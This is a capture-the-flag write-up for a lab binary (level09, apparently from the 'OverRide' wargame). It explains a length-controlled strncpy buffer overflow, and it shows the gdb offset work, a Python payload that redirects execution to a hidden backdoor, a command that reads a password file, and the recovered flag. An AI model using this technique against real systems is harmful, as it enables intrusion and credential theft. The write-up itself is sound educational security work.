 # level09
## Program behaviour

1. Ask for `username`
2. Copy `41` bytes from `username` to `buffer + 140`
3. Ask for `message`
4. Copy `(size_t)buffer[180]` bytes from `message` to `buffer`


## Vulnerability

For some reason the program uses `buffer[180]` to determine the size to `strncpy` the `message` to `buffer`.
So if `buffer[180]` is a big number, for instance `255`, the program will buffer-overflow when copying the content of `message`.
Another helpful function is the function `secret_backdoor` located at `0x000055555555488c`. This function is not called anywhere in the program but if we manage to jump to it, then the program will run `system`.

## Exploitation

1. Find the offset from `buffer` to saved `$rip`
```gdb
(gdb) disas handle_msg 
Dump of assembler code for function handle_msg:
   0x00005555555548c0 <+0>:	push   %rbp
   0x00005555555548c1 <+1>:	mov    %rsp,%rbp
   0x00005555555548c4 <+4>:	sub    $0xc0,%rsp
   0x00005555555548cb <+11>:	lea    -0xc0(%rbp),%rax
   0x00005555555548d2 <+18>:	add    $0x8c,%rax
   0x00005555555548d8 <+24>:	movq   $0x0,(%rax)
   0x00005555555548df <+31>:	movq   $0x0,0x8(%rax)
   0x00005555555548e7 <+39>:	movq   $0x0,0x10(%rax)
   0x00005555555548ef <+47>:	movq   $0x0,0x18(%rax)
   0x00005555555548f7 <+55>:	movq   $0x0,0x20(%rax)
   0x00005555555548ff <+63>:	movl   $0x8c,-0xc(%rbp)
   0x0000555555554906 <+70>:	lea    -0xc0(%rbp),%rax # loading buffer here
   0x000055555555490d <+77>:	mov    %rax,%rdi
   0x0000555555554910 <+80>:	callq  0x5555555549cd <set_username>
   0x0000555555554915 <+85>:	lea    -0xc0(%rbp),%rax
   0x000055555555491c <+92>:	mov    %rax,%rdi
   0x000055555555491f <+95>:	callq  0x555555554932 <set_msg>
   0x0000555555554924 <+100>:	lea    0x295(%rip),%rdi        # 0x555555554bc0
   0x000055555555492b <+107>:	callq  0x555555554730 <puts@plt>
   0x0000555555554930 <+112>:	leaveq 
   0x0000555555554931 <+113>:	retq   
End of assembler dump.
End of assembler dump.
(gdb) b *0x000055555555490d
Breakpoint 1 at 0x55555555490d
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/users/level09/level09 
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------

Breakpoint 1, 0x000055555555490d in handle_msg ()
(gdb) p/d ($rbp + 8) - ($rbp - 0xc0)
$1 = 200
```

2. Knowing that there is `200` bytes from `buffer` to saved `$rip`, we can start crafting the exploit.
    - Set `buffer[180]` to `0xff`
    - Write `200` bytes to `buffer`
    - Overwrite saved `$rip` with `0x000055555555488c`
    - Read the content of `/home/users/end/.pass`
```sh
level09@OverRide:~$ (python -c 'print "\xff" * 41 + "\n" + "\x90" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00\n" + "cat /home/users/end/.pass"') | ~/level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, �����������������������������������������>: Msg @Unix-Dude
>>: >: Msg sent!
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```